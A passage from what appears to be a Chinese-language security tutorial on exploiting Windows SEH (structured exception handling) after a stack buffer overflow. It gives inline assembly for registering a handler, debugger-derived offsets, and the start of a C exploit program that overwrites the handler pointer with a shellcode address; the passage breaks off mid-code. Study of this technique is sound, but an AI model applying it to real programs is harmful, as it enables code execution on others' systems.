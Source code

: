 由于 SEH 是存放在栈中的，因此如果数据溢出缓冲区，那么就很有可能会淹没掉 SEH。以下就是利用 SEH 来产生攻击的步骤：  

1.  精心制造的溢出数据可以把 SEH 中异常处理函数的入口地址更改为 shellcode 的起始地址
    
2.  溢出后错误的栈往往会触发异常
    
3.  当 Windows 开始处理溢出后的异常时，会错误地把 shellcode 当作异常处理函数而执行  
    

接下来依然使用上面有栈溢出漏洞的 test 函数作为测试，但是此时需要在栈中注册一个结构化异常处理器。注册的方式也很简单，只要在栈中保存一份 SEH 结构体即可，且异常处理函数指针指向的函数满足如下的格式：  

```
EXCEPTION_DISPOSITION except_handler(_EXCEPTION_RECORD *ExceptionRecord,
                     void *EstablisherFrame,
                     _CONTEXT *ContextRecord,
                     void *DispatcherContext);

```

因此对于函数的调用，要改成如下的代码：  

```
// 注册异常处理器
__asm
{
    push except_handler        // 处理器结构指针
    push fs:[0]            // 前一个结构化异常处理器的地址
    mov fs:[0], esp       // 登记新的结构
}
 
test(szInput);
 
// 销毁异常处理器
__asm
{
    mov eax, [esp]        // 从栈顶取得前一个异常登记结构的地址
    mov fs:[0], eax       // 将前一个异常结构的地址赋给
    add esp, 8            // 清理栈上的异常登记结构
}

```

由于要覆盖的是异常处理函数地址，所以要计算 test 函数中的局部变量具体 SEH 结构的偏移，这样才可以构造足够长度的输入数据来覆盖第一个异常处理函数之前的栈空间，然后才可以覆盖掉异常处理函数的地址。  

因此首先要在调试器中中断到 test 函数的 strcpy 函数的调用处。

![](https://bbs.pediy.com/upload/attach/202201/835440_FPB944N2MAGKKT8.jpg)

可以看到此时局部变量的保存地址是 0x12FE00，异常处理函数的保存地址是 0x12FE18。因此，局部变量地址距离 SEH 结构的地址相差 0x18，首先就需要对这 0x18 大小的栈空间进行覆盖，随后在的 4 字节覆盖的就是异常处理函数的地址，可以将其覆盖为 shellcode 的地址，这样程序出现异常的时候就会跳转到 shellcode 的地址继续执行。据此，可以写出如下的漏洞利用代码：

```
int main()
{
    char szInput[0x100] = { 0 };
    int iJunkLen = 0x18;
     
    LoadLibrary("user32.dll");                     // MessageBox函数在该中，需要将其导入才可以调用
    memset(szInput, 'A', iJunkLen);               // 覆盖异常处理函数之前的数据
    *(PDWORD)(szInput + iJunkLen) = (DWORD)g_szShellCode;    // 将异常处理函数修改为SellCode的地址
     
    // 注册异常处理器
    __asm
    {
        push except_handler                      // 处理器结构指针
        push fs:[0]                         // 前一个结构化异常处理器的地址
        mov fs:[0], esp                    // 登记新的结构
    }
```
